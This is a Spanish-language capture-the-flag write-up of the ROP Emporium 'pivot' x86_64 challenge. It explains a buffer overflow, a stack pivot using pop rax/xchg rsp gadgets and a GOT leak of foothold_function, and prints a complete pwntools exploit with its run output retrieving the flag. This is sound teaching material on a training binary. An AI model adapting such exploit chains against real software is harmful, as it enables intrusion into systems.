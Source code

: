 # Pivot (x86\_64)

En este ejercicio nos vuelven a dar un binario y una libc.

```c
pwndbg> checksec
File:     /home/ub1cu0/Desktop/ropEmporium/pivot/pivot
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
RUNPATH:    b'.'
Stripped:   No
```

El binario nos permite introducir 2 valores:

```c
./pivot 
pivot by ROP Emporium
x86_64

Call ret2win() from libpivot
The Old Gods kindly bestow upon you a place to pivot: 0x7f89e0608f10
Send a ROP chain now and it will land there
> hola
Thank you!

Now please send your stack smash
> adios
Thank you!

Exiting
```

Vamos a ver como se ve eso desde `ghidra`:

```c
void pwnme(void *puntero) {
    char array[32];

    memset(array, 0, 0x20);
    puts("Call ret2win() from libpivot");
    printf("The Old Gods kindly bestow upon you a place to pivot: %p\n", puntero);
    puts("Send a ROP chain now and it will land there");
    printf("> ");
    read(0, puntero, 0x100);
    puts("Thank you!\n");
    puts("Now please send your stack smash");
    printf("> ");
    read(0, array, 0x40);
    puts("Thank you!");
    return;
}
```

Como podemos ver, tenemos un buffer overflow con 32 bytes se sobra en el segundo valor que nos piden. También podemos ver que el primer valor que guarda un valor en `puntero`. Vamos a mirar de donde viene ese puntero:

```c
void pwnme(void *puntero);

int main(void) {
    void *ptr;

    setvbuf(stdout, NULL, _IONBF, 0);  // Sin buffer en stdout
    puts("pivot by ROP Emporium");
    puts("x86_64\n");

    ptr = malloc(0x10000000);
    if (ptr == NULL) {
        puts("Failed to request space for pivot stack");
        exit(1);
    }

    // Llamar a pwnme con un puntero adelantado (offset 0xffff00)
    pwnme((char *)ptr + 0xffff00);

    free(ptr);
    puts("\nExiting");

    return 0;
}
```

El programa reserva una gran cantidad de espacio y el puntero es el inicio de ese espacio mas un valor grande, con lo cual es un puntero a una zona muy superior del espacio reservado.

Ahora que sabemos esto podemos hacer un stack pivoting, si conseguimos hacer que el rsp apunte al puntero tendremos la capacidad de hacer una rop chain muy larga.

Para hacer esto vamos a mirar si hay algún gadget interesante que nos permita manipular el rsp:

```c
0x004009bb : pop rax ; ret
. . .
0x004009bd : xchg rsp, rax ; ret
```

Con la fusión de estos 2 gadgets podemos controlar el rsp a voluntad. El programa como hemos viste en el código de la función `pwnme` imprime por pantalla el valor del puntero así teniendo esto tenemos los datos necesarios para hacer stack pivoting:

```python
io.recvlines(4)
pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)

stack_pivoting = flat({
    offset: [
        pop_rax, pivot_addr,
        xchg_rsp_rax
    ]
})
```

Con ese payload haríamos que lo que pongamos en el primer input se ejecute una vez se haga el buffer overflow. Con lo cual pasamos de tener 32 bytes para hacer la rop chain a mucho mas.

Ahora que tenemos mas espacio podemos intentar sacar la flag. Si miramos la libc podemos ver que hay una función win que imprime la flag:

```c
void ret2win(void) {
    FILE *stream = fopen("flag.txt", "r");
    if (!stream) {
        puts("Failed to open file: flag.txt");
        exit(1);
    }

    char buf[0x21];
    fgets(buf, sizeof(buf), stream);
    puts(buf);

    fclose(stream);
    exit(0);
}
```

Para poder saber la dirección podemos intentar hacer un leak de puts con puts pero la libc que tiene la función `ret2win` no tiene puts sin embargo el binario si. Si miramos mas funciónes de la libc podemos ver la siguiente:

```c
void foothold_function(void) {
    puts("foothold_function(): Check out my .got.plt entry to gain a foothold into libpivot");
}
```

Lo que pasa es que esa función no se ha llamado nunca con lo cual no está resuelta aun en el `got` para poder sacar su dirección. Lo que tenemos que hacer es llamar nosotros a esa función con nuestra rop chain para hacer que se escriba la dirección en el `got`. Para eso necesitamos que la función `foothold_function` esté en la `plt` de nuestro binario, vamos a comprobarlo:

```c
00000000004009a8 <uselessFunction>:
  4009a8:	55                   	push   rbp
  4009a9:	48 89 e5             	mov    rbp,rsp
  4009ac:	e8 6f fd ff ff       	call   400720 <foothold_function@plt>
  4009b1:	bf 01 00 00 00       	mov    edi,0x1
  4009b6:	e8 95 fd ff ff       	call   400750 <exit@plt>
```

Está! Entonces podemos hacer un leak de esa función con puts y hacer el calculo para saber la dirección de la libc y así conseguir tener la dirección de la función de la libc `ret2win`, vamos con el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./pivot")
libc = ELF("./libpivot.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b ret2win
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()

    offset = 40
    pop_rdi = 0x00400a33 # pop rdi ; ret
    pop_rax = 0x004009bb # pop rax ; ret
    xchg_rsp_rax = 0x004009bd # xchg rsp, rax ; ret
    ret = 0x004006b6 # ret
    
    io.recvlines(4)
    pivot_addr = int(io.recvline().decode().strip().split(': ')[1], 16)
    
    log.success(f'Pivot Address: {hex(pivot_addr)}')
    
    payload1 = flat(
        exe.plt['foothold_function'],
        pop_rdi, exe.got['foothold_function'],
        exe.plt['puts'],
        exe.sym['pwnme'],
        exe.sym['main'], # Instrucción necesaria para que no reviente el exploit
    )
    
    payload2 = flat({
        offset: [
            pop_rax, pivot_addr,
            xchg_rsp_rax
        ]
    })
    
    io.sendlineafter(b'> ', payload1)
    io.sendlineafter(b'> ', payload2)
    
    io.recvlines(2)
    leak = u64(io.recvline().rstrip(b'\n').ljust(8, b'\x00')) # Guardamos el Leak
    log.success(f'Leak: {hex(leak)}')
    
    libc.address = leak - libc.sym['foothold_function'] # Calculamos la dirección base de la libc
    log.success(f'Libc Address: {hex(libc.address)}')
    
    info(f'Ret2win: {hex(libc.symbols['ret2win'])}')
    
    io.sendlineafter(b'> ', b'B' * 8) # La he liado al contar lineas o algo y me hace falta repetir esta linea
    io.sendlineafter(b'> ', b'B' * 8)
    io.sendlineafter(b'> ', b'B' * offset + p64(libc.symbols['ret2win']))
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot': pid 218429
[+] Pivot Address: 0x7f916cc08f10
[+] Leak: 0x7f916ce0096a
[+] Libc Address: 0x7f916ce00000
[*] Ret2win: 0x7f916ce00a81
[*] Switching to interactive mode
Thank you!

Now please send your stack smash
> [*] Process '/home/ub1cu0/Desktop/ropEmporium/pivot/pivot' stopped with exit code 0 (pid 218429)
Thank you!
ROPE{a_placeholder_32byte_flag!}
```

Funciona! Gracias por leer.
